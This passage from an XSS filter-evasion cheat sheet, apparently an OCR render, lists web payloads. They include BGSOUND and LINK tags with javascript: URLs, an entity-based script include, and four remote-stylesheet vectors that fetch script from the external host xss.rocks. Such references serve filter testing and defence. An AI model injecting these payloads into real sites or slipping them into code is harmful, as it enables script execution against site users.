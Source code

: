105. `seekSegmentTime()` (this is a method that locates the specified point on the element's segment time line and begins playing from that point. The segment consists of one repetition of the time line including reverse play using the AUTOREVERSE attribute.)

### BGSOUND

`<BGSOUND SRC="javascript:alert('XSS');">`

### & JavaScript includes

`<BR SIZE="&{alert('XSS')}">`

### STYLE sheet

`<LINK REL="stylesheet" HREF="javascript:alert('XSS');">`

### Remote style sheet

Using something as simple as a remote style sheet you can include your XSS as the style parameter can be redefined using an embedded expression. This only works in IE and Netscape 8.1+ in IE rendering engine mode. Notice that there is nothing on the page to show that there is included JavaScript. Note: With all of these remote style sheet examples they use the body tag, so it won't work unless there is some content on the page other than the vector itself, so you'll need to add a single letter to the page to make it work if it's an otherwise blank page:

`<LINK REL="stylesheet" HREF="http://xss.rocks/xss.css">`

### Remote style sheet part 2

This works the same as above, but uses a `<STYLE>` tag instead of a `<LINK>` tag). A slight variation on this vector was used
to hack Google Desktop. As a side note, you can remove the end `</STYLE>` tag if there is HTML immediately after the vector to close it. This is useful if you cannot have either an equals sign or a slash in your cross site scripting attack, which has come up at least once in the real world:

`<STYLE>@import'http://xss.rocks/xss.css';</STYLE>`

### Remote style sheet part 3

This only works in Opera 8.0 (no longer in 9.x) but is fairly tricky. According to RFC2616 setting a link header is not part of the HTTP1.1 spec, however some browsers still allow it (like Firefox and Opera). The trick here is that I am setting a header (which is basically no different than in the HTTP header saying `Link: <http://xss.rocks/xss.css>; REL=stylesheet`) and the remote style sheet with my cross site scripting vector is running the JavaScript, which is not supported in FireFox:

`<META HTTP-EQUIV="Link" Content="<http://xss.rocks/xss.css>; REL=stylesheet">`

### Remote style sheet part 4

This only works in Gecko rendering engines and works by binding an XUL file to the parent page. I think the irony here is that Netscape assumes that Gecko is safer and therefore is vulnerable to this for the vast majority of sites:

`<STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>`
